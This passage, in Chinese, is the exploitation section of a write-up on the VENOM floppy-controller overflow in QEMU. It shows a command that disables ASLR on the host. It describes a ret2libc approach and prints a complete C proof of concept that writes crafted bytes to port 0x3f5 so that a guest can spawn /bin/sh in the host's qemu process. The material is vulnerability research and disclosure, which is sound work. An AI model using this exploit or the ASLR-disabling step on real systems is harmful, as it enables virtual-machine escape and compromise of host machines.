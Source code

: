 在分析该部分的时候，了解了一下，aio的poll是在主线程里面做的，专门处理某种block的IO。

##6. 漏洞利用

知道了漏洞的细节之后，下一步就是利用了。qemu程序非常大，堆里面申请的数据非常多，基本上可以说对加载的payload大小没啥限制。对eip的完全控制和payload几乎没有限制，如果能够过掉ASLR和DEP，相信会是一个非常完美的利用，利用虚拟机进程执行任意代码。第一次写Linux的exp，对linux的ASLR和DEP绕过技术不太熟（Windows也好久不搞了，不过我记得方法是不少的），在网上找了好久Linux进行ROP的文章，但是都太老了，在所有模块加载基址都随机化的情况下，感觉需要针对具体漏洞的特定得到模块或者某个函数的地址，才能进一步走下去。于是，我就只能关掉了ASLR。

	echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

暂时不考虑过ASLR，就简单利用ret2lib，通过system去执行/bin/sh。之前考虑怎么布置参数，本来想着可能还要转换栈的，后来灵光一下，发现覆盖的那个callback后面就是其参数。太巧了，只需要找到/bin/sh的地址布置在eip之后就可以了。下图为寻找system函数和"/bin/sh"字符串的过程。

![](/assets/img/venom/7.png)

下面是poc的第三版

	#include <sys/io.h>
	#include <stdio.h>
	
	#define FIFO 0x3f5
	
	
	int main()
	{
		int i;
		iopl(3);
		outb(0x08e,0x3f5);
		for(i = 0;i < 1515;i++)
			outb(0x42,0x3f5);
		outb(0x10,0x3f5);
		outb(0xce,0x3f5);
		outb(0xe6,0x3f5);
		outb(0xb7,0x3f5);
		outb(0xb8,0x3f5);
		outb(0x50,0x3f5);
		outb(0xe1,0x3f5);
		outb(0xb7,0x3f5);
		for(i = 0;i < 50;++i)
			outb(0x44,0x3f5);
		return 0;
	}


最后的poc效果如下，先在虚拟机中运行poc，然后宿主机中对应的qemu进程开启了/bin/sh。
